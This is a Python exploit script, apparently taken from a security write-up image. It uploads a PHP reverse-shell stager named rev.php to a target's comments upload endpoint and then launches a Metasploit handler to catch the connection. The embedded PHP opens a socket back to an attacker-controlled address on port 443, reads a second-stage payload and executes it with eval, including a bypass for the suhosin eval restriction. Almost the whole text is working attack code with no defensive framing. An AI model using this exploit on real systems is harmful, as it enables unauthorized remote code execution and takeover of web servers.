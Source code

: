 ```python
for i in range (10):
   requests.get(burp0_url, headers=burp0_headers)

fields = {
    'userfile': ('rev.php', "/*<?php /**/ error_reporting(0); $ip = '192.168.201.7'; $port = 443; \
        if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f(\"tcp://{$ip}:{$port}\"); $s_type = 'stream'; } \
        if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } \
        if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM,SOL_TCP); \
            $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } \
             if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } \
             switch ($s_type) { case 'stream': $len = fread($s, 4); \
                break; case 'socket': $len = socket_read($s, 4); break; } \
                if (!$len) { die(); } $a = unpack(\"Nlen\", $len); $len = $a['len']; $b = ''; \
                while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); \
                break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } \
                 $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; \
                 if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) \
                 { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();", \
                 "text/php"),'file_id': "0"
}

boundary = '----WebKitFormBoundary' \
           + ''.join(random.sample(string.ascii_letters + string.digits, 16))
m = MultipartEncoder(fields=fields, boundary=boundary)

headers = {
    "Connection": "keep-alive",
    "Content-Type": m.content_type
}

s = requests.Session()
files = {'userfile': open('rev.php', 'rb')}


req = s.post("http://"+target+"/comments/yolo.php", headers=headers, data=m)

os.system('msfconsole -q -x "use exploit/multi/handler; set lhost 192.168.201.7; set lport 443; exploit -z -j;"')
```


